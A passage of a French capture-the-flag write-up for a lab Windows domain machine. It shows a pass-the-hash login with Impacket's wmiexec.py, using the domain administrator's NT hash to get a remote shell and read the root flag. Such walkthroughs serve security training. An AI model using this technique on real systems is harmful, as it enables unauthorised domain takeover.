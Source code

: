 On obtient alors le hash du compte administrateur, celui du domaine cette fois.

```console
$ wmiexec.py -hashes :8982babd4da89d33210779a6c5b078bd 'SOUPEDECODE.LOCAL/Administrator'@192.168.56.126
Impacket v0.13.0.dev0+20250611.105641.0612d078 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
soupedecode\administrator

C:\>cd users\administrator\desktop
C:\users\administrator\desktop>type root.txt
d41d8cd98f00b204e9800998ecf8427e
```
